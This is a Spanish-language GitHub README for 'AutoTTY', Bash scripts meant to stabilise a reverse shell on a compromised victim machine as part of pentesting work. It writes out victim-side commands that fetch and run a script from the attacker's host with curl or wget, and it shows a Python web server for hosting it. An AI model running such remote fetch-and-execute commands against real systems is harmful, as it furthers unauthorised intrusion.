 # 🧪 AutoTTY + Install Script

Este repositorio contiene dos scripts Bash diseñados para mejorar tu experiencia al obtener reverse shells en máquinas objetivo. El objetivo es facilitar el tratamiento de TTY automáticamente y asegurar que todas las herramientas necesarias estén instaladas en tu sistema atacante.

---

## 📁 Archivos

| Archivo        | Descripción                                                                 |
|----------------|-----------------------------------------------------------------------------|
| `autotty.sh`   | Aplica automáticamente tratamiento TTY. Si ya se aplicó uno, lo reinicia.  |
| `install.sh`   | Instala dependencias necesarias como `rlwrap`, `xterm`, `tmux`, entre otras.|

---

## ⚙️ Instalación de dependencias

Ejecuta este script en tu máquina atacante antes de iniciar una sesión:

```bash
chmod +x install.sh
./install.sh ```

🔁 Uso del tratamiento TTY
Una vez que tengas acceso a una reverse shell en la máquina víctima, ejecuta:

bash
Copy code
bash <(curl -s http://TU-IP:PUERTO/autotty.sh)
O si usas wget:

bash
Copy code
wget http://TU-IP/autotty.sh && bash autotty.sh
El script detecta si ya existe un tratamiento TTY activo (usando un marcador en /tmp/tty_active). Si lo hay, lo borra y lo reinicia.

✅ Requisitos
Acceso a una reverse shell (por ejemplo, vía pwnear, nc, etc.)

Acceso a bash y al comando script en la máquina víctima

Conexión a internet (para descargar el script remotamente)

💡 Tip
Puedes alojar estos scripts en un servidor web simple para descargarlos desde una shell víctima. Ejemplo:

bash
Copy code
# En tu máquina atacante
python3 -m http.server 80
👤 Autor
Russell 09

Herramientas creadas para flujos de pentesting prácticos y eficientes.
